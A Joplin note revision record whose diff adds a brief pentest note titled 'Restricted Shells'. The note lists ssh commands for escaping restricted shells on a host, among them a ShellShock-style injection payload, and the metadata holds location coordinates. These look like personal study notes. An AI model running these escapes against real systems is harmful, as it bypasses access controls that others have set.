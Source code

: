 id: 7bc47efb64a7409381d407c2f9b316c3
parent_id: 
item_type: 1
item_id: ce1fe66f438e4e008cb92640dd80924f
item_updated_time: 1651216583321
title_diff: "[{\"diffs\":[[1,\"Restricted Shells\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":17}]"
body_diff: "[{\"diffs\":[[1,\"https://0xffsec.com/handbook/shells/restricted-shells/\\\n\\\n> ssh user@10.0.0.3 -t \\\"/bin/sh\\\" (For normal)\\\n> \\\n> ssh user@10.0.0.3 -t \\\"bash --noprofile\\\" (For profile)\\\n> \\\n> `ssh user@10.0.0.3 -t \\\"(){:;}; /bin/bash\\\"` (For ShellShock cases)\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":231}]"
metadata_diff: {"new":{"id":"ce1fe66f438e4e008cb92640dd80924f","parent_id":"2deea0a2fd65431c90074dad6a2d5de8","latitude":"1.28795004","longitude":"103.85178375","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-29T07:19:25.752Z
created_time: 2022-04-29T07:19:25.752Z
type_: 13
